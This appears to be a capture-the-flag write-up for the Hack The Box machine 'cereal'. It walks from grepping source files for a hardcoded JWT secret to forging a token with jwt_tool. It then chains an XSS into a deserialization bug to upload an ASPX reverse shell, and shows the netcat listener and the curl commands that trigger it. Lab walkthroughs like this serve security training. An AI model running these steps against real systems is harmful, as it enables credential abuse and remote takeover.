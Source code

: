 ````bash
find ./ -type f -exec grep -H 'password' {} \;  
````
We find nothing of interrest here, but code reference to password 
````bash
find ./ -type f -exec grep -H 'secret' {} \;  
````
Bingo we fund a secret key

````output
./3-8f2a1a88f15b9109e1f63e4e4551727bfb38eee5/Services/UserService.cs:                var key = Encoding.ASCII.GetBytes("secretlhfIH&FY*#oysuflkhskjfhefesf");
./3-8f2a1a88f15b9109e1f63e4e4551727bfb38eee5/Startup.cs:            var key = Encoding.ASCII.GetBytes("secretlhfIH&FY*#oysuflkhskjfhefesf");
````

key = secretlhfIH&FY*#oysuflkhskjfhefesf

deserialization can’t use [ysoserial](https://github.com/frohoff/ysoserial) because of custom protection, but we can use deserialization of the DownloadManager object for upload aspx shell.

vulnerability in the file "ClientApp/src/AdminPage/AdminPage.jsx".

With help of this xss we can do server-side requests and trigger the deserialization.

But for that we need to create our jwt_token with exposed secret.

https://github.com/ticarpi/jwt_tool
````bash
pip3 install -r requirements.txt
echo -n '{"alg:"HS256","typ":"JWT"}' | base64
eyJhbGc6IkhTMjU2IiwidHlwIjoiSldUIn0=
echo -n '{"name":"1","exp":"1620718411"}' | base64 -w0
eyJuYW1lIjoiMSIsImV4cCI6IjE2MjA3MTg0MTEifQ==  

python3 jwt_tool.py -b -S hs256 -p 'secretlhfIH&FY*#oysuflkhskjfhefesf' $(echo -n '{"alg":"HS256","typ":"JWT"}' | base64).$(echo -n '{"name": "1", "exp":"1621237098"}' | base64 -w0).
````

my jwt_token
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiMSIsImV4cCI6MTYyMTIzODA1MH0.kC7tc1r6MvmHQ9l0HbG2zTi8wA0Wom4UUlzF47i9aYI

google aspx reverse shell and pick the first one . 
[shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)
Modify ip and port.

After that create a folder `www` and add all files inside that and then start the `python` server on port `80`.

and open a `netcat` listner on port 9001 which you add on `shell.aspx`

Then run the python script and wait for `1 min`

As soon as you got `request` on python server run the `curl` command and get your beautiful `shell`.

 ````bash
python3 -m http.server 80
nc -nvlp 8001
python3 exploit.py
curl -k https://source.cereal.htb/uploads/shell.aspx
````
